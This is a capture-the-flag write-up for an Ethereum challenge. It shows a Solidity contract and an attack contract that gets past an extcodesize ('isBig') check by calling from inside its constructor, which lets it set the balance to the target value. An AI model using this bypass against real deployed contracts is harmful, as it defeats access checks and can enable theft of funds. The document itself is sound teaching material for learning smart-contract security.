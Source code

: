 # [EASY] YouOnlyHaveOneChance - Solution

**Author**: AtlanticBase

**Category**: Ethereum

The gist of this is to bypass the `isBig` function. In order to bypass it you will have to create all your attacks in the constructor. When the constructor is run, the contract size is technically 0 bytes.

```javascript
contract YouOnlyHaveOneChance {
    uint256 public balanceAmount;
    address public owner;
    uint256 randNonce = 0;

    constructor() {
        owner = msg.sender;

        balanceAmount =
            uint256(
                keccak256(
                    abi.encodePacked(block.timestamp, msg.sender, randNonce)
                )
            ) %
            1337;
    }

    function isBig(address _account) public view returns (bool) {
        uint256 size;
        assembly {
            size := extcodesize(_account)
        }
        return size > 0;
    }

    function increaseBalance(uint256 _amount) public {
        require(tx.origin != msg.sender);
        require(!isBig(msg.sender), "No Big Objects Allowed.");
        balanceAmount += _amount;
    }

    function isSolved() public view returns (bool) {
        return balanceAmount == 1337;
    }
}

contract YouOnlyHaveOneChanceAttack {

  YouOnlyHaveOneChance public youOnlyHaveOneChance;

    constructor() {
        youOnlyHaveOneChance = YouOnlyHaveOneChance("[Address of YouOnlyHaveOneChance]");
        youOnlyHaveOneChance.increaseBalance(1337 - youOnlyHaveOneChance.balanceAmount());
    }
}


```
